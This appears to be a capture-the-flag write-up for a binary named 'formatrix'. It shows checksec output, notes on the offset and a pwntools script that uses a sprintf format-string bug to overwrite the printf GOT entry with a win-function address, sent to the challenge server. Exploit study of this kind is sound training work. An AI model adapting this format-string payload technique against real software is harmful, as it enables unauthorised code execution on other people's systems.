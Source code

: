 * `checksec` tedious: no PIE and no RELRO

  ```
  Arch:       amd64-64-little
  `RELRO:      No RELRO`
  Stack:      No canary found
  NX:         NX enabled
  `PIE:        No PIE (0x400000)`
  SHSTK:      Enabled
  IBT:        Enabled
  Stripped:   No
  ```


* overwrite printf addr to win addr by exploiting sprintf, since printf no vulns
* offset: 5th, but buffer shifts from rbp-0x200 -> rbp-0x600 between fgets and sprintf, 1024bytes, which means: the newer offset should be 5 + 1024/8 = 133.

* script

	```
	# printf: 0x403580
	# win: 0x4011d6
	
	
	from pwn import *
	
	context.arch = 'amd64'
	if args.REMOTE:
	    p = remote('6447.lol', 4001)
	    # p = process('./formatrix')
	else:
	    # p fget pws *loop+179
	    context.terminal = ['tmux', 'splitw', '-h', '-p', '70']
	    p = gdb.debug('./formatrix',
	                  gdbscript='''
	                  b *0x401319
	                  c
	                  ''')
	
	# win_addr = p64(0x4011d6)
	prinf_addr_str = "0x403580"
	prinf_int = int(prinf_addr_str, 16)
	
	# payload = b"%134$lln"
	# payload += p64(prinf_int)
	
	payload = (b"%211c...")  # 133th -> 214 -> 0xd6
	payload += (b"%143$hhn")  # 134th
	
	payload += (b"%55c....")  # 135th -> 0x11 + 256 -214 = 59 -> 0x11
	payload += (b"%144$hhn")  # 136
	
	payload += (b"%43c....")  # 137th -> 0x40 - 0x11 =  47
	payload += (b"%145$hhn")  # 138
	
	payload += (b"%189c...")  # 139th -> 0x00 + 256 - 0x40 = 192
	payload += (b"%146$hhn")  # 140th
	
	payload += (b"%147$hhn")  # 141th
	payload += (b"%148$hhn")  # 142th
	
	payload += p64(prinf_int)  # 143
	payload += p64(prinf_int + 1)  # 144
	payload += p64(prinf_int + 2)  # 145
	payload += p64(prinf_int + 3)  # 146
	payload += p64(prinf_int + 4)  # 147
	payload += p64(prinf_int + 5)  # 148
	
	print('payload:', payload)
	
	p.sendlineafter(b': ', payload)
	
	p.interactive()
	
	```
